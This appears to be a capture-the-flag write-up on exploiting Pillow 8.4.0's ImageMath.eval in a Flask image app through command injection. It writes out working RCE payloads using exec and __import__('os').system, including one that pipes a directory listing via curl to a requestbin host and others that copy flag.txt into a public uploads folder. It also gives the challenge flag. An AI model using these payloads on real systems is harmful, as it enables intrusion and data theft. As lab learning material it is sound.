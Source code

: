 ## Skill: Python command injection RCE, Context Escaping

I did not have previous experience with Flask, but this challenge is not that difficult.

The web application is an image color remover, taking a specified color and converting it to transparency.

Only one dependency, Pillow, has the version specified (8.4.0). That is definitely [sus](https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901).

![image](https://user-images.githubusercontent.com/26480299/169521629-aee84185-c1d1-4ef6-b8af-9691a1d216aa.png)

We do have ImageMath.eval in the source code and we can throw in some payloads to the colors, which are used *directly without being parsed as integers*. (I used [Burp](https://portswigger.net/burp), which I learnt from "[TryHackMe](https://tryhackme.com/) Christmas" for this)

`os.system('ls -l | curl -X POST --data-binary @- https://requestbin.io/********')`
> name 'os' is not defined

It seemed like I could only use standard library and the specified variables, and I definitely cannot use a simple `import os` within the bracket context. It turns out that:
- we can use `exec(command)` to escape the bracket context (as suggested in the Snyk report)
- there's an inline version of import `__import__`
Both commands are available in the standard library.

So I tried:
`exec('__import__("os").system("ls -l | curl -X POST --data-binary @- https://requestbin.io/*********")')`

My domain did't catch it, perhaps the server can't make arbitrary web requests? I have to find other ways to leak the info as the RCE is most likely what I needed.

Since with RCE we can do virtually whatever we want, we can make files in the static folder, which can definitely be accessed. Here's how I approached it inside my docker container:

```
"exec('__import__(\"os\").system(\"touch pwn.txt\")')"
"exec('__import__(\"os\").system(\"pwd > pwn.txt\")')"
"exec('__import__(\"os\").system(\"pwd > application/static/uploads/pwn.txt\")')"
"exec('__import__(\"os\").system(\"ls > application/static/uploads/pwn.txt\")')"
"exec('__import__(\"os\").system(\"cat ../flag.txt > application/static/uploads/pwn.txt\")')"
```

**Flag: HTB{i_slept_my_way_to_rce}**

Remark: escaping characters in Burp was a pain.
